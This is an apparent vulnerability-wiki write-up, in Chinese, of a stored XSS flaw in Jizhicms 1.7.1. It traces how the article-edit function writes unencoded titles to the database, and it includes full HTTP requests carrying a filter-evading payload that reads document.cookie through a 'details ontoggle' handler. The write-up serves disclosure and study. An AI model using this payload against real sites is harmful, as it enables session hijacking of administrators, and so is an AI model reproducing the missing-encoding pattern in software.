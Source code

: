 Jizhicms 1.7.1 存储XSS漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

首先自己注册一个账户然后登陆，在文章标题处插入XSS payload

    payload:<details open>

![1.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId24.png)

管理员登录后台点击编辑且没有修改里面的字符串就保存的话那便会触发XSS漏洞![2.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId25.png)![3.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId26.png)首先看一下在前台发表文章处的请求数据包

    POST /user/release.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 187
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/user/release.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=&litpic=&description=123&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

根据url定位到release函数![4.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId27.png)该函数主要是先检查是否是登录状态然后检查是否存在违禁词汇，其中违禁词汇取的是webconf\[\'mingan\'\]的值，由前篇文章可知数据存放在数据库中然后通过缓存读取相关信息，可以直接输出一下![5.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId28.png)

    过滤的东西和XSS关系不大，主要是涉及到文章敏感汉字之类的，然后被保存到数据库中的时候<>变成了&lt; &gt;

![6.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId29.png)看下是如何进行操作的，继续跟进该函数，通过frparam函数进行操作之后对title进行赋值![7.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId30.png)frparam函数在获取到相关值后调用format\_param函数对数据进行处理，由于传入的int的值为1.所以对传入的参数进行了html实体编码![8.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId31.png)![9.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId32.png)所以在数据库中存储的是进行过实体编码的xss payload最后登入后台看下编辑函数

    POST /admin.php/Article/editarticle.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 340
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Article/editarticle/id/34.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    go=1&id=34&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&tid=2&seo_title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&hits=0&keywords=&litpic=&file=&description=123&orders=0&tags=&isshow=0&addtime=2020-05-28+17%3A17%3A39&target=&ownurl=&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

看一下数据中的更新情况，又将\< \>变成了\<\>,所以触发了XSS漏洞![10.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId33.png)定位到漏洞函数editarticle，看到同样调用了frparam函数![11.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId34.png)frparam函数由于没有传入参数会直接返回url中的数据![12.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId35.png)在请求包中可以看到是已经将html实体化编码变成了原字符，所以data取到的数据时没有经过html编码的数据![13.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1存储XSS漏洞/media/rId36.png)所以在进行update更新操作的时候就会向数据库写入未经html实体化编码的数据

参考链接
--------

> https://xz.aliyun.com/t/7861
